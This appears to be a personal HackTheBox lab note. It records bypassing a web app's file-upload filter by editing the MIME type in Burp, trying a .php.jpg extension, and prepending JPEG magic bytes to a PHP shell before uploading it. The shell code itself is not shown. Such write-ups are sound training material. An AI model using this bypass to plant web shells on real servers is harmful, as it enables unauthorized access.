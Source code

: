 Try changing the MIME TYPE 
```
image/jpg
image/jpeg
```

In Burp Request, change content-type to image/jpg

![[HackTheBox/Linux/attachments/Pasted image 20250509211346.png]]

Still same error 
![[HackTheBox/Linux/attachments/Pasted image 20250509211401.png]]

Change the file extension to .php.jpg
![[HackTheBox/Linux/attachments/Pasted image 20250509211441.png]]

Different error message
![[HackTheBox/Linux/attachments/Pasted image 20250509211457.png]]

Hypothesize that it is using the ✨magic✨ bytes of the file to determine the file type

Grabbing the magic bytes of a random jpg on local box with 
```
head <name of file>.jpg | xxd
```

See the magic bytes 

![[HackTheBox/Linux/attachments/Pasted image 20250509211912.png]]

Grab the first 20 bytes of the jpg 
```
head -c 20 <name of file>.jpg | xxd
```

![[HackTheBox/Linux/attachments/Pasted image 20250509212049.png]]

Save these 20 bytes to a file 
```
head -c 20 <name of file>.jpg > jpeg-magicbytes
```

Cat this magic bytes file with the shell.php file 

```
cat jpeg-magicbytes shell.php > magical-shell.php
```

Upload this magical-shell.php through a Burp Request

Add a .jpeg file extension within the Burp request 

![[HackTheBox/Linux/attachments/Pasted image 20250509212511.png]]

The shell was uploaded!!
![[HackTheBox/Linux/attachments/Pasted image 20250509212538.png]]
